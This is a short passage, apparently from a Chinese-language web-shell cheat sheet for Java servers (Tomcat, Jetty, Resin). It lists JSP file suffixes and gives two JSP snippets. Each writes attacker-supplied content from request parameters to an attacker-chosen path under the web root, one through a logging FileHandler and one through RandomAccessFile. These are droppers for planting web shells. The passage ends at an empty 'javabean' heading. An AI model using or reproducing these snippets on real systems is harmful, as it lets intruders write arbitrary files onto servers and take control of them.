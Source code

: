 


JavaServer tomcat jetty resin支持的后缀:jsp jspx jspf

```java
java.util.logging.Logger l=java.util.logging.Logger.getLogger("t");
java.util.logging.FileHandler h=new java.util.logging.FileHandler(pageContext.getServletContext().getRealPath("/")+request.getParameter("f"),true);
h.setFormatter(new java.util.logging.SimpleFormatter());
l.addHandler(h);
l.info(request.getParameter("t"));
```

```java
RandomAccessFile rf = new RandomAccessFile(request.getRealPath("/")+request.getParameter("f"), "rw");
rf.write(request.getParameter("t").getBytes());
rf.close();
```

### javabean